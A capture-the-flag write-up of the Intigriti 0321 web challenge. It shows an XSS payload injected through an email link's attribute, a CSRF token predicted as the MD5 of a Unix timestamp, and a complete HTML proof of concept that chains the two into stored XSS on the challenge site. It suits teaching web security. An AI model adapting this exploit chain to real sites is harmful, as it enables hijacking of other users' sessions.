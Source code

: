 # Intigriti 0321 Challenge Writeup

First of all , how the website work is the website has notes that take input. Our input has generated to the `<p>` tag. I have entered html tags like `<script> , <h1>,` etc..
and it encoded all the html tags.  
  When I entered the notes as `https://google.com` , the response come with `<a>` tag. I tried to escape from the `<a>` tag and still it 
didn't work.  
  Then , I tried with `mgthura@test.com` it converted to `<a>` tag again.  
  ![](https://github.com/mgthuramoemyint/mgthura/blob/gh-pages/intigrit.PNG?raw=true)
  I tested to break out the `<a>` tag again with the payload `"mgthura"@test.com`.  
  The response
come with `<a href="mailto:" mgthura"@test.com"="">"mgthura"@test.com</a>` showing that  we've successfully injected to the tag. Still we can't use to escape from the `<a>` tag
just adding some event so the new payload will be `"onmouseenter=alert('flag{THIS_IS_THE_FLAG}');"@test.com`  
  By entering the new payload,
  ![](https://github.com/mgthuramoemyint/mgthura/blob/gh-pages/intigrit2.PNG?raw=true)
  It was still a self xss. The challenge said it can't be self xss.
  So we need to chain csrf to get a stored xss. I checked the csrf token and anaylsing which hash it is , seem to be md5 hash.
  Look at the first photo again, see what it is written with comment tag.  
  `<!-- page generated at 2021-03-29 12:38:35 -->`  
  By changing the time to timestamp , I got the digits `1617020646` and encrypting to md5.  
  ![](https://github.com/mgthuramoemyint/mgthura/blob/gh-pages/md5.PNG?raw=true)  
  Hence , we now how to bypass CSRF it's time to make a POC.  
    
  The csrf works liken when you open the page it will generate a token and you need to make a request with that generated token. So we've to open a new page in POC or by using iframe.
  ```<html>
<html>
<body>
<script src="https://cdnjs.cloudflare.com/ajax/libs/blueimp-md5/2.18.0/js/md5.min.js" integrity="sha512-Hmp6qDy9imQmd15Ds1WQJ3uoyGCUz5myyr5ijainC1z+tP7wuXcze5ZZR3dF7+rkRALfNy7jcfgS5hH8wJ/2dQ==" crossorigin="anonymous"></script>
<script>
function go(){
let w = window.open("https://challenge-0321.intigriti.io/",'');
setTimeout(function(){w.close();trigger();csrf.submit()},1000)
}
</script>

<h1 onclick=go()>Click me</h1>
<form name=csrf style="display:none" action="https://challenge-0321.intigriti.io/" method="POST">
<input id="csrfToken" type="hidden" name="csrf" value="" />
<input type="hidden" name="notes" value="&quot;onmouseenter=alert(&#39;flag{THIS_IS_THE_FLAG}&#39;);&quot;@test.com" />
<input type="submit" onclick="trigger()" value="Submit request" />
</form>
<script>

var d2 = Date.now();
console.log(d2);
let csrftoken = document.getElementById("csrfToken");

let trigger = () => {
let date = Date.now();
date = Math.floor(date / 1000)
hash = md5(date);
csrftoken.value = hash
console.log(date);
}
</script>
</body>

</html>
```
## Explantation of POC
First , I called a javascript that will encrypt the value to md5
`https://cdnjs.cloudflare.com/ajax/libs/blueimp-md5/2.18.0/js/md5.min.js`.  
The another script tag is opening a new window and submitting the request. The form is CSRF request , the last script is I take current timestamp with `Date.now()`.  
The timestamp includes millisecond and don't need it so removed by dividing 1000 for the decimal value I used Math.floor to remove that.
Now encrypt it with md5 , finally we got the csrf value.
Still the script is right but sometime it late a second when we hash the value. I asked  help from my friend to become a better script.  
You have to allow pop-up to use this script. https://raw.githubusercontent.com/mgthuramoemyint/mgthura/gh-pages/final.html
![](https://github.com/mgthuramoemyint/mgthura/blob/gh-pages/2021-03-29%2020-07-56.gif?raw=true)
